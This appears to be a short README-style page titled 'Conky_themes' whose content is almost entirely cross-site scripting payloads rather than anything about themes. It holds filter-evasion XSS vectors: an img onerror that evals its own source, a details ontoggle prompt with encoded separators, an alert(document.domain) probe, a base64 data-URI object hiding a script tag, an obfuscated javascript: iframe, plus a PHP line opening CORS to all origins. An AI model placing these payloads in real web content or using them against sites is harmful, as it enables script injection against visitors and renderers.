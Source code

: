 <img src=x:console.log(1); onerror=eval(src) alt=String.fromCharCode(88,83,83)># Conky_themes
<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>
<?php header(“Access-Control-Allow-Origin: *”); ?>
<img src=1 onerror=alert(document.domain)>
<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
<iframe src="\x01javascript:alert(0)"></iframe> 
